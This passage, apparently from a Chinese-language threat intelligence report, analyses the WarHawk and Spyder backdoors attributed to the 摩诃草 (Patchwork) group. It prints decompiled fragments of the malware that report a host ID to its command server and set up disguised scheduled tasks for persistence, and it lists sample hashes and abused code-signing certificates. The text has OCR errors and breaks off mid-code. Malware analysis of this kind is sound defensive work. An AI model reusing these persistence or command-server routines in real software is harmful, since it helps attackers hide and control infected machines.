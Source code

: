 169   
170 v37 $=$ lstrlenA(String);   
171 v38 $=$ (CHAR \*)GlobalA11oc(0x40u, 2 \*v37);   
172 wsprintfA(v38, "{\"_hwid\": \"%s\", \"_del\": \"true\" }", String);   
173 memset(String1,0,sizeof(String1));   
174 v39 $=$ lstrlenA(v38);   
175 MwPostRequest(v39, v38, String1);   
176 GlobalFree(v38);   
177 ExitProcess(e);   
178}  

WarHawk后门支持的功能包括下载并执行后续载荷、命令执行、文件信息收集回传、下载文件。而Spyder后门的功能集中在下载并执行后续载荷。  

## I溯源关联  

### 归属  

Spyder后门早期样本（MD5:eb9068161baa5842b40d5565130526b9）带有的数字签名"Integrated Plotting Solutions Limited"也被摩诃草的其他样本使用过。  

### 数字签名详细信息  

#### 常规  

#### 高级  

数字签名信息一个副署无效。文件可能已更改。  

#### 签名人信息（S)  

![](https://cdn-mineru.openxlab.org.cn/extract/7cb3dbb3-f205-48ab-95fe-9170083a84dc/7a39a318fd80573c1fb8f9bd74755dece16f4f8b0ac910b7ff117984226eef23.jpg)  

副署(U)  

![](https://cdn-mineru.openxlab.org.cn/extract/7cb3dbb3-f205-48ab-95fe-9170083a84dc/c1509080c568362ce0e995925f8a2e5eb59cb5d530bfde9d2ef85e95eb94162c.jpg)  

#### 确定  

此外，根据另一个Spyder后门样本（MD5:87d94635372b874f18acb3af7c340357）使用的数字签名"HILLFOOT DEVELOPMENTS（UK）LTD."关联到一个Remcos木马样本。  

<html><body><table><tr><td>文件名 smss.exe</td></tr><tr><td>MD5 acbae6919c9ce41f45ce0d1a3f3fedd4</td></tr><tr><td>创建时间 2023-04-1715:47:39UTC</td></tr><tr><td>数字签名时间 2023-04-1807:24:00UTC</td></tr><tr><td>文件大小 1026840字节（1002.77KB)</td></tr></table></body></html>  

该样本首先创建一系列计划任务，做法与Spyder后门相似。  

101 sub_4087A0(   
102 L"glassdoor.exe",   
103 (OLECHAR \*)L"Glass Door Service 10",   
104 (int)L"10:00:00",   
105 (OLECHAR \*)L"Copyright 2018 Glass Door LLC.");   
106 sub_4087A0(   
107 L"glassdoor.exe",   
108 (OLECHAR \*)L"Glass Door Service 11"   
109 (int)L"11:00:00",   
110 (OLECHAR \*)L"Copyright 2018 Glass Door LLC.");   
111 sub_4087A0(   
112 L"glassdoor.exe",   
113 (OLECHAR \*)L"Glass Door Service 12",   
114 (int)L"12:00:00",   
115 (OLECHAR \*)L"Copyright 2018 Glass Door LLC.");   
116 sub_4087A0(   
117 L"glassdoor.exe",   
118 (OLECHAR \*)L"Glass Door Service 13",   
119 (int)L"13:00:00",   